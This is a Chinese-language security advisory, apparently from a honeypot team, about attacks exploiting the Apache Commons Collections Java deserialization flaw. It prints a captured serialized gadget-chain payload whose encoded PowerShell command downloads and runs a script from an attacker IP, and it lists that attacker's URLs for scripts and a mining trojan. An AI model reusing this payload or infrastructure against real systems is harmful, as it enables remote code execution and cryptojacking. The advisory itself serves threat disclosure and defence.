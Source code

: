 ```yaml
---
layout:     post
title:      Apache-Commons-Collections反序列化漏洞通报
subtitle:   Apache-Commons-Collections
date: 2018-08-20
author:     shenzhen_antiy_wly
header-img: img/avatar-by.jpg
catalog: true
tags:
    - honeypot_event
---
```


# Apache-Commons-Collections反序列化漏洞通报

## 概述

2015年11月6日，FoxGlove Security安全团队的@breenmachine 发布的一篇博客[3]中介绍了如何利用Java反序列化漏洞，来攻击最新版的WebLogic、WebSphere、JBoss、Jenkins、OpenNMS这些大名鼎鼎的Java应用，实现远程代码执行。

2018年8月20日，安天蜜网捕获到利用Apache-Commons-Collections反序列化漏洞的攻击流量，并关联到一个HFS站点，监控到里面有freewin挖矿木马，HFS站点地址为：http://5.63.159.203。

## 漏洞描述

Apache Commons Collections是对已有的JDK数据结构的扩展和补充，是一个JAVA框架

Apache Commons Collections这样的基础库非常多的Java应用都在用，一旦编程人员误用了反序列化这一机制，使得用户输入可以直接被反序列化，就能导致任意代码执行。

出现的问题是由于TransformedMap和InvokerTransformer造成的。

TransformedMap这个类是用来对Map进行某些变换用的，例如当我们修改Map中的某个值时，就会触发我们预先定义好的某些操作来对Map进行处理。

Map transformedMap = TransformedMap.decorate(map, keyTransformer, valueTransformer);

通过decorate函数就可以将一个普通的Map转换为一个TransformedMap。第二个参数和第三个参数分别对应当key改变和value改变时需要做的操作；Transformer是一个接口，实现transform(Object input)方法即可进行实际的变换操作，按照如上代码生成transformedMap后，如果修改了其中的任意key或value，都会调用对应的transform方法去进行一些变换操作。

## 捕获载荷

```
....sr..java.util.HashSet.D.....4...xpw.....?@......sr.4org.apache.commons.collections.keyvalue.TiedMapEntry....9......L..keyt..Ljava/lang/Object;L..mapt..Ljava/util/Map;xpt..foosr.*org.apache.commons.collections.map.LazyMapn....y.....L..factoryt.,Lorg/apache/commons/collections/Transformer;xpsr.:org.apache.commons.collections.functors.ChainedTransformer0...(z.....[..iTransformerst.-[Lorg/apache/commons/collections/Transformer;xpur.-[Lorg.apache.commons.collections.Transformer;.V*..4.....xp....sr.;org.apache.commons.collections.functors.ConstantTransformerXv..A......L..iConstantq.~..xpvr..java.lang.Runtime...........xpsr.:org.apache.commons.collections.functors.InvokerTransformer...k{|.8...[..iArgst..[Ljava/lang/Object;L..iMethodNamet..Ljava/lang/String;[..iParamTypest..[Ljava/lang/Class;xpur..[Ljava.lang.Object;..X..s)l...xp....t..getRuntimeur..[Ljava.lang.Class;......Z....xp....t..getMethoduq.~......vr..java.lang.String...8z;.B...xpvq.~..sq.~..uq.~......puq.~......t..invokeuq.~......vr..java.lang.Object...........xpvq.~..sq.~..uq.~......ur..[Ljava.lang.String;..V...{G...xp....t..cmd.exet../ct.:powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc cABvAHcAZQByAHMAaABlAGwAbAAgAC0AbgBvAHAAIAAtAGMAIAAiAGkAZQB4ACgATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwA1AC4ANgAzAC4AMQA1ADkALgAyADAAMwAvAHQAZQBzAHQALgBwAHMAMQAnACkAIgA=t..execuq.~......vq.~
```



## 	攻击IP及URL

http://5.63.159.203/test.ps1 

http://5.63.159.203/winpm.ps1 

http://5.63.159.203/freewin

## 样本



| 文件名  | 病毒家族 | Hash                             |
| ------- | -------- | -------------------------------- |
| freewin |          | b4660e3ff7b35aec90586f6857c11f00 |



## 受影响范围



Apache Commons Collections <= 3.2.1，<= 4.0.0





## 修复及防护建议



升级到安全版本的Apache 



## 参考资料



[1]     freebuf 漏洞报告

http://www.freebuf.com/vuls/175252.html